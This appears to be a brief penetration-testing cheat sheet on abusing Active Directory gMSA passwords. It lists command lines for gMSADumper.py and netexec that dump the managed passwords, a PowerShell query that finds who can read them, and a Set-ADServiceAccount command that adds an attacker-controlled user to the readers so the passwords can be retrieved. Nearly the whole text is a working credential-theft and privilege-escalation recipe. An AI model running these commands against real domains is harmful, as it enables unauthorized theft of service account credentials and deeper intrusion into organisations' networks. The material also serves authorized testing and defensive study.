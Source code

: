 # gMSA Passwords:

Find users controled by gMSA Passwords (externaly from your machine), it also check users who can revel the passwords.

`gMSADumper.py -u <user you control> -p <password> -d <domain>` 
<br>
`nxc ldap <ip> -u <user you control> -p <password> --gmsa`


If you have access to a internal powershell session (evil-winrm, for example) you can also check this information for a particular user:

`Get-ADServiceAccount -Identity <user controlled by gMSA Passwords> -Properties PrincipalsAllowedToRetrieveManagedPassword`


In case you have access, and permisions inside powershell session you can include yourself into the list of users who can revel the passwords:

`Set-ADServiceAccount -Identity <user controlled by gMSA Passwords> -PrincipalsAllowedToRetrieveManagedPassword <user you control>`


Then try to retrive passwords again with gMSADumper.py or netexec.
